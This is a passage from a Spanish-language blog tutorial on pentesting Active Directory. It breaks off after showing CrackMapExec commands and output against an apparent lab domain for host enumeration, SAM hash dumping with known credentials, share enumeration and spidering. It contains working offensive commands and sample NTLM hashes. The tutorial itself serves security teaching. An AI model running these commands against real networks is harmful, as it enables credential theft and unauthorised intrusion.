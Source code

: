 ```yaml
---
title: Pentesting Active Directory
date: 2023-09-01 9:00:00
categories: [Active Directory, Windows, Apuntes]
tags: [ad, active directory, windows, windows server, tutorial]    
author: Waidroc
---
```



![Disclaimer!](/assets/img/2023-09-01/ad_titulo.jpg)


Esta vez, vamos a explorar diversas estrategias, enfoques y metodologías más comunes y efectivas para llevar a cabo pruebas de penetración en entornos de Active Directory. ¡Comencemos!

<h2> ¿Qué es Active Directory? </h2>

Active Directory (AD) es un servicio de directorio desarrollado por Microsoft que actúa como un sistema centralizado para `administrar y organizar recursos` en una red. Funciona como una base de datos `jerárquica` que almacena información sobre usuarios, grupos, dispositivos y recursos en una red, permitiendo un acceso y una administración eficiente de los recursos.

Su importancia a nivel empresarial radica en que proporciona una `estructura organizativa` para la gestión de usuarios y recursos de TI. Permite a las organizaciones establecer políticas de seguridad, asignar permisos y derechos de acceso, y gestionar de manera centralizada la autenticación y autorización en toda la red. Además, facilita la administración de sistemas, la implementación de políticas de grupo y la gestión de software a través de la red, lo que ahorra tiempo y recursos en entornos empresariales de cualquier tamaño.

<h2> ¿Qué vamos a ver en este post?</h2>

⧫ Crackmapexec enumeration
⧫ SMB Relay
⧫ Pass The Hash
⧫ Grabbing info from users
⧫ LDAP Enumeration
⧫ Kerbrute
⧫ Kerberoasting
⧫ AS-REP Roast
⧫ Golden Ticket
⧫ Rubeus - Kerberoasting
⧫ Rubeus - AS-REP Roast
⧫ SCF Files
⧫ Bloodhound & neo4j

# CrackMapExec enumeration

- - -

![Disclaimer!](/assets/img/2023-09-01/cme.png)

Esta es la herramienta más utilizada para el pentesting en Active Directory, ya que `enumera` los servicios más comunes. A pesar de esto, es bastante sencilla de usar. Veamos que podemos realizar con esta `navaja suiza`:

## SMB Enumeration

- - -

`SMB` es un protocolo utilizado por sistemas Windows para compartir archivos e impresoras, así como para otras funciones. Es una parte esencial de muchas redes y uno de los servicios más comunes que se ejecutan. Existen varias herramientas para enumerar SMB, como `smbclient` o `smbmap`. Pero crackmapexec es mi favorita por muchas razones. Hablemos de ellas:

### Network information

- - -

Utilizar `crackmapexec` de la manera más sencilla puede proporcionarte información como el dominio del Controlador de Dominio (DC), la firma SMB (la cual comprobaremos en el SMB Relay) o el nombre del host.

```zsh
❯ cme smb 192.168.10.1/24
SMB         192.168.10.110   445    W1-PC        [*] Windows 10.0 Build 19041 x64 (name:W1-PC) (domain:waidroc.local) (signing:False) (SMBv1:False)
SMB         192.168.10.115   445    W2-PC  [*] Windows 10.0 Build 17763 x64 (name:W2-PC) (domain:waidroc.local) (signing:True) (SMBv1:False)
SMB         192.168.10.120   445    W3-PC        [*] Windows 10.0 Build 19041 x64 (name:W3-PC) (domain:waidroc.local) (signing:False) (SMBv1:False)
```

De esta forma, podríamos ver los hosts con Windows que están conectados a la red. Podemos ver que el Controlador de Dominio (192.168.10.115) tiene la firma SMB, pero eso no importa si los otros PCs conectados al Controlador de Dominio no tienen la misma firma.

### Dumping SAM

- - -

Si sabemos las credenciales de uno de los usuarios del sistema, podemos dumpear el fichero `SAM`, el cual contiene las contraseñas en forma de hash (NTLM) de las cuentas de usuario locales.

```zsh
❯ cme smb 192.168.10.1/24 -u usuario -p 'Password2' --sam
SMB         192.168.10.115   445    W2-PC  [*] Windows 10.0 Build 17763 x64 (name:W2-PC) (domain:waidroc.local) (signing:True) (SMBv1:False)
SMB         192.168.10.110   445    W1-PC        [*] Windows 10.0 Build 19041 x64 (name:W1-PC) (domain:waidroc.local) (signing:False) (SMBv1:False)
SMB         192.168.10.115   445    W2-PC  [+] waidroc.local\usuario:Password2 
SMB         192.168.10.110   445    W1-PC        [+] waidroc.local\usuario:Password2 
SMB         192.168.10.120   445    W3-PC        [*] Windows 10.0 Build 19041 x64 (name:W3-PC) (domain:waidroc.local) (signing:False) (SMBv1:False)
SMB         192.168.10.120   445    W3-PC        [+] waidroc.local\usuario:Password2 (Pwn3d!)
SMB         192.168.10.120   445    W3-PC        [+] Dumping SAM hashes
SMB         192.168.10.120   445    W3-PC        Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.10.120   445    W3-PC        Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.10.120   445    W3-PC        DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.10.120   445    W3-PC        WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:7b75aeef3ea91facb4cd29e7da7832d9:::
SMB         192.168.10.120   445    W3-PC        Cordy:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         192.168.10.120   445    W3-PC        [+] Added 5 SAM hashes to the database
```
Aquí podemos observar que al saber la contraseña de `usuario`, podemos ver y dumpear el fichero SAM del host W3-PC, obteniendo los hashes de sus cuentas de usuario local. Ahora, si esas contraseñas son "flojas" y pueden obtenerse fácilmente con un ataque de fuerza bruta o de diccionario, nos podríamos hacer con el control total del sistema.

### Share enumeration

- - -

```zsh
❯ cme smb 192.168.10.1/24 -u cordy -p 'Password1' --shares
SMB         192.168.10.115   445    W2-PC  [*] Windows 10.0 Build 17763 x64 (name:W2-PC) (domain:waidroc.local) (signing:True) (SMBv1:False)
SMB         192.168.10.110   445    W1-PC        [*] Windows 10.0 Build 19041 x64 (name:W1-PC) (domain:waidroc.local) (signing:False) (SMBv1:False)
SMB         192.168.10.115   445    W2-PC  [+] waidroc.local\cordy:Password1 
SMB         192.168.10.110   445    W1-PC        [+] waidroc.local\cordy:Password1 
SMB         192.168.10.110   445    W1-PC        [+] Enumerated shares
SMB         192.168.10.110   445    W1-PC        Share           Permissions     Remark
SMB         192.168.10.110   445    W1-PC        -----           -----------     ------
SMB         192.168.10.110   445    W1-PC        ADMIN$                          Admin remota
SMB         192.168.10.110   445    W1-PC        C$                              Recurso predeterminado
SMB         192.168.10.110   445    W1-PC        IPC$            READ            IPC remota
SMB         192.168.10.120   445    W3-PC        [*] Windows 10.0 Build 19041 x64 (name:W3-PC) (domain:waidroc.local) (signing:False) (SMBv1:False)
SMB         192.168.10.115   445    W2-PC  [+] Enumerated shares
SMB         192.168.10.120   445    W3-PC        [+] waidroc.local\cordy:Password1 
SMB         192.168.10.115   445    W2-PC  Share           Permissions     Remark
SMB         192.168.10.115   445    W2-PC  -----           -----------     ------
SMB         192.168.10.115   445    W2-PC  ADMIN$                          Remote Admin
SMB         192.168.10.115   445    W2-PC  C$                              Default share
SMB         192.168.10.115   445    W2-PC  IPC$            READ            Remote IPC
SMB         192.168.10.115   445    W2-PC  NETLOGON        READ            Logon server share 
SMB         192.168.10.115   445    W2-PC  SYSVOL          READ            Logon server share 
SMB         192.168.10.120   445    W3-PC        [+] Enumerated shares
SMB         192.168.10.120   445    W3-PC        Share           Permissions     Remark
SMB         192.168.10.120   445    W3-PC        -----           -----------     ------
SMB         192.168.10.120   445    W3-PC        ADMIN$                          Admin remota
SMB         192.168.10.120   445    W3-PC        C$                              Recurso predeterminado
SMB         192.168.10.120   445    W3-PC        IPC$            READ            IPC remota
                                                                                                                                                                                                                                
❯ cme smb 192.168.0.1/24 -u usuario -p 'Password2' --shares
SMB         192.168.10.115   445    W2-PC  [*] Windows 10.0 Build 17763 x64 (name:W2-PC) (domain:waidroc.local) (signing:True) (SMBv1:False)
SMB         192.168.10.110   445    W1-PC        [*] Windows 10.0 Build 19041 x64 (name:W1-PC) (domain:waidroc.local) (signing:False) (SMBv1:False)
SMB         192.168.10.115   445    W2-PC  [+] waidroc.local\usuario:Password2 
SMB         192.168.10.110   445    W1-PC        [+] waidroc.local\usuario:Password2 
SMB         192.168.10.110   445    W1-PC        [+] Enumerated shares
SMB         192.168.10.110   445    W1-PC        Share           Permissions     Remark
SMB         192.168.10.110   445    W1-PC        -----           -----------     ------
SMB         192.168.10.110   445    W1-PC        ADMIN$                          Admin remota
SMB         192.168.10.110   445    W1-PC        C$                              Recurso predeterminado
SMB         192.168.10.110   445    W1-PC        IPC$            READ            IPC remota
SMB         192.168.10.120   445    W3-PC        [*] Windows 10.0 Build 19041 x64 (name:W3-PC) (domain:waidroc.local) (signing:False) (SMBv1:False)
SMB         192.168.10.115   445    W2-PC  [+] Enumerated shares
SMB         192.168.10.115   445    W2-PC  Share           Permissions     Remark
SMB         192.168.10.115   445    W2-PC  -----           -----------     ------
SMB         192.168.10.115   445    W2-PC  ADMIN$                          Remote Admin
SMB         192.168.10.115   445    W2-PC  C$                              Default share
SMB         192.168.10.115   445    W2-PC  IPC$            READ            Remote IPC
SMB         192.168.10.115   445    W2-PC  NETLOGON        READ            Logon server share 
SMB         192.168.10.115   445    W2-PC  SYSVOL          READ            Logon server share 
SMB         192.168.10.120   445    W3-PC        [+] waidroc.local\usuario:Password2 (Pwn3d!)
SMB         192.168.10.120   445    W3-PC        [+] Enumerated shares
SMB         192.168.10.120   445    W3-PC        Share           Permissions     Remark
SMB         192.168.10.120   445    W3-PC        -----           -----------     ------
SMB         192.168.10.120   445    W3-PC        ADMIN$          READ,WRITE      Admin remota
SMB         192.168.10.120   445    W3-PC        C$              READ,WRITE      Recurso predeterminado
SMB         192.168.10.120   445    W3-PC        IPC$            READ            IPC remota
```

De nuevo, podemos observar de nuevo que el usuario `usuario` tiene permisos de administrador sobre el usuario `cordy`. Esta salida nos muestra el tipo de permisos sobre los recursos compartidos (si los hay).

### Spidering

- - -

Una de las opciones más importantes que nos brinda `cme` es un módulo llamado `spider_plus`, ya que explora todos los recursos compartidos y directorios que hay en su interior de manera recursiva, proporcionándonos así un resultado ordenado y muy visual, mostrándonos todos los ficheros visibles en cada recurso compartido. 

Este módulo nos agiliza y facilita la tarea, ya que no tenemos que acceder a cada uno de los recursos compartidos para enumerar todos los directoriso y ficheros que contienen manualmente. Veamos un ejemplo:

```zsh
❯ cme smb 192.168.0.1/24 -u usuario -p 'Password2' -M spider_plus
SMB         192.168.10.110   445    W1-PC        [*] Windows 10.0 Build 19041 x64 (name:W1-PC) (domain:waidroc.local) (signing:False) (SMBv1:False)
SMB         192.168.10.120   445    W3-PC        [*] Windows 10.0 Build 19041 x64 (name:W3-PC) (domain:waidroc.local) (signing:False) (SMBv1:False)
SMB         192.168.10.115   445    W2-PC  [*] Windows 10.0 Build 17763 x64 (name:W2-PC) (domain:waidroc.local) (signing:True) (SMBv1:False)
SMB         192.168.10.110   445    W1-PC        [+] waidroc.local\usuario:Password2 
SPIDER_P... 192.168.10.110   445    W1-PC        [*] Started spidering plus with option:
SPIDER_P... 192.168.10.110   445    W1-PC        [*]        DIR: ['print$']
SPIDER_P... 192.168.10.110   445    W1-PC        [*]        EXT: ['ico', 'lnk']
SPIDER_P... 192.168.10.110   445    W1-PC        [*]       SIZE: 51200
SPIDER_P... 192.168.10.110   445    W1-PC        [*]     OUTPUT: /tmp/cme_spider_plus
SMB         192.168.10.120   445    W3-PC        [+] waidroc.local\usuario:Password2 (Pwn3d!)
SPIDER_P... 192.168.10.120   445    W3-PC        [*] Started spidering plus with option:
SPIDER_P... 192.168.10.120   445    W3-PC        [*]        DIR: ['print$']
SPIDER_P... 192.168.10.120   445    W3-PC        [*]        EXT: ['ico', 'lnk']
SPIDER_P... 192.168.10.120   445    W3-PC        [*]       SIZE: 51200
SPIDER_P... 192.168.10.120   445    W3-PC        [*]     OUTPUT: /tmp/cme_spider_plus
SMB         192.168.10.115   445    W2-PC  [+] waidroc.local\usuario:Password2 
SPIDER_P... 192.168.10.115   445    W2-PC  [*] Started spidering plus with option:
SPIDER_P... 192.168.10.115   445    W2-PC  [*]        DIR: ['print$']
SPIDER_P... 192.168.10.115   445    W2-PC  [*]        EXT: ['ico', 'lnk']
SPIDER_P... 192.168.10.115   445    W2-PC  [*]       SIZE: 51200
SPIDER_P... 192.168.10.115   445    W2-PC  [*]     OUTPUT: /tmp/cme_spider_plus
```

### Authentication sprying

- - -
